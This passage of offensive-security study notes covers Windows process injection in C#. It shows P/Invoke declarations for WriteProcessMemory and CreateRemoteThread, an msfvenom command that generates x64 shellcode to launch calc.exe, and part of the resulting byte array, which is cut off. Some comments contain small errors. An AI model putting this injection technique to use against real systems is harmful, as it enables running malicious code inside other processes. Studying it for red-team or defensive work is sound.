 WriteProcessMemory - We can copy data to remote process. (RTLMoveMemory doesn't support this.)


```C#
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(
     IntPtr hProcess,// process handle
     IntPtr lpBaseAddress,/// newly allocated memory address 
     byte[] lpBuffer,// address of bytearray containing the shell code
     Int32 nSize,// size of shellcode
     out IntPtr lpNumberOfBytesWritten // a pointers to memory localtion to output how much data was copied
);
```

Notice that the out252 keyword was prepended to the outSize variable to have it passed by 
reference instead of value. This ensures that the argument type aligns with the function 
prototype

to get shellcode use msfvenom given below

### CreateRemoteThread

CreateRemoteThread - as we cannot just call CreateThread.

```C#
HANDLE CreateRemoteThread(
 HANDLE hProcess, // process handle
 LPSECURITY_ATTRIBUTES lpThreadAttributes, // IntPtr.Zero for default values
 SIZE_T dwStackSize, // allowed stack size can be 0
 LPTHREAD_START_ROUTINE lpStartAddress, // start address of a thread
 LPVOID lpParameter, // pointer to variables that will be passed to the thread can be nill
 DWORD dwCreationFlags, // ignore 0
 LPDWORD lpThreadId // ignore IntPtr.Zero
)
```





### creating a code based injection

for calc x64 winexec

```csharp
──(root㉿kali)-[/home/kali/codeplay/CVE-2022-1388]
└─# msfvenom -p windows/x64/exec CMD=calc.exe -b "x00" EXIT_FUNC=THREAD -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=273, char=0x78)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 319 (iteration=0)
x64/xor chosen with final size 319
Payload size: 319 bytes
Final size of csharp file: 1648 bytes
byte[] buf = new byte[319] {
0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
```